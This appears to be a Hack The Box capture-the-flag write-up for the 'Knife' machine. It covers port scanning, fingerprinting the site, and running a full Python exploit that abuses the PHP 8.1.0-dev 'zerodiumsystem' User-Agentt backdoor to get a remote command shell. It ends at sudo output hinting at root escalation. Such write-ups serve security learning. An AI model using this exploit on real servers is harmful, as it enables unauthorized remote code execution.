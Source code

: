 ```yaml
---
title: HTB - Knife (EN)
author: gpandres
date: 2021-09-08 20:00:00 +0800
categories: [Cybersecurity,HTB,WriteUps]
tags: [HTB,Knife,PHP,GTFOBin,Backdoor]
---
```




![knifeimg](https://gpandres.github.io/assets/img/posts/knife/knife.jpeg)


<h3 data-toc-skip>We'll start scanning ports with NMAP.</h3>


```console
$ nmap -v 10.10.10.242
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-08 18:20 CEST
Initiating Ping Scan at 20:20
Scanning 10.10.10.242 [2 ports]
Completed Ping Scan at 20:20, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:20
Completed Parallel DNS resolution of 1 host. at 20:20, 0.03s elapsed
Initiating Connect Scan at 20:20
Scanning 10.10.10.242 [1000 ports]
Discovered open port 22/tcp on 10.10.10.242
Discovered open port 80/tcp on 10.10.10.242
Completed Connect Scan at 20:20, 9.31s elapsed (1000 total ports)
Nmap scan report for 10.10.10.242
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 9.74 seconds
```

<h3 data-toc-skip>Looks like we have a web server and SSH service. Let's try to see what is on the web.</h3>

![knifeweb](https://gpandres.github.io/assets/img/posts/knife/knifeweb.png)

<h3 data-toc-skip>It is a hospital, but I haven't found anything useful on the web.</h3>

<h3 data-toc-skip>With Wappalyzer we can discover what technologies are used to create a website.</h3>

![knifewappalyzer](https://gpandres.github.io/assets/img/posts/knife/knifewappalyzer.png)

<h3 data-toc-skip>Alright, let's search for vulnerabilities for these technologies.</h3>

<h3 data-toc-skip>There's a vulnerability for PHP 8.1.0dev.</h3>
![knifesearch](https://gpandres.github.io/assets/img/posts/knife/knifesearch.png)
<https://www.exploit-db.com/exploits/49933>


<h3 data-toc-skip>I copied the script and executed</h3>


```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit

```


```console
$ python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
Can't acess tty; job crontol turned off.
$ whoami
james
```
<h3 data-toc-skip>We are in!, let's check the user flag.</h3>

```console
$ cat home/james/user.txt
cb5ddfa28b84d6b930bca47d9bc984b6
```

<h3 data-toc-skip>Now we have to get access with root.</h3>

<h3 data-toc-skip>Check if we can execute commands as root with james</h3>

```console
$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```


















